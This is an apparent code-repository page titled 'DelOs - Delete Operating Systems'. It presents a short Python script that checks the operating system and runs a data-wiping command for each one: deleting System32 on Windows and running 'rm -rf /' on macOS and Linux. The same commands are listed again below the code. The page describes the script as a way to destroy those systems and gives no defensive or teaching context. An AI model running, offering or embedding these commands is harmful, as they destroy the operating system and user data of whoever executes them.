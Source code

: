 # DelOs - Delete Operating Systems

Destroy Windows, Mac Os, Linux

```python
from sys import platform
from sys import exit as close
from os import system, chdir

win_path = "C:/Windows/"
win = "rmdir /s /q System32"
mac = "rm -rf /"
linux = "rm -rf /"

if platform == "win32":
    chdir(win_path)
    system(win)
elif platform == "darwin":
    system(mac)
elif platform == "linux" or platform == "linux2":
    system(linux)
else:
    close()
```

Windows - rmdir /s /q C:/Windows/System32
Mac Os - rm -rf /
Linux - rm -rf /
